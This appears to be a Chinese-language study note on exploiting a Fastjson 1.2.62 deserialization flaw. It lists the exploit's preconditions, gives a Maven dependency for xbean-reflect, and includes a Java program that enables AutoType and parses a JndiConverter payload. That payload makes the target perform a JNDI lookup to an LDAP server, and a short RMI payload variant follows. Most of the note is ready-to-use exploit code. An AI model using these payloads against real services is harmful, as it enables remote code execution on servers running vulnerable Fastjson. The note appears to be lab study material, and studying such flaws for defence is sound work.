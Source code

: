 类似1.2.47

## Fastjson 1.2.62

Fastjson 1.2.62版本的漏洞利用需要满足以下条件：
需要开启AutoTypeSupport（已在现有代码中启用）
需要服务端存在xbean-reflect包
受JDK版本的限制
首先，需要在pom.xml中添加xbean-reflect依赖

```xml
        <dependency>
            <groupId>org.apache.xbean</groupId>
            <artifactId>xbean-reflect</artifactId>
            <version>4.15</version>
        </dependency>
```

代码

```java
package com.example.fastjson.Fastjson1_2_24;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class Fastjson {
    public static void main(String[] args) {
        // 启用AutoType支持（Fastjson 1.2.62漏洞利用条件之一）
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);

        // Fastjson 1.2.62 利用 org.apache.xbean.propertyeditor.JndiConverter 进行漏洞利用
        // 这个类在 xbean-reflect 包中（Fastjson 1.2.62漏洞利用条件之一）
        String payload = "{\n" +
                "  \"@type\":\"org.apache.xbean.propertyeditor.JndiConverter\",\n" +
                "  \"AsText\":\"ldap://192.168.32.128:50389/026ec3\"\n" +
                "}";

        System.out.println("正在执行Fastjson 1.2.62漏洞测试...");
        System.out.println("Payload: " + payload);

        try {
            JSON.parse(payload);
            System.out.println("漏洞测试执行完成");
        } catch (Exception e) {
            System.out.println("执行过程中出现异常: " + e.getMessage());
        }
    }
}
```

POC

```json
{  "@type":"org.apache.xbean.propertyeditor.JndiConverter",  "AsText":"rmi://127.0.0.1:1099/exploit"}";
```
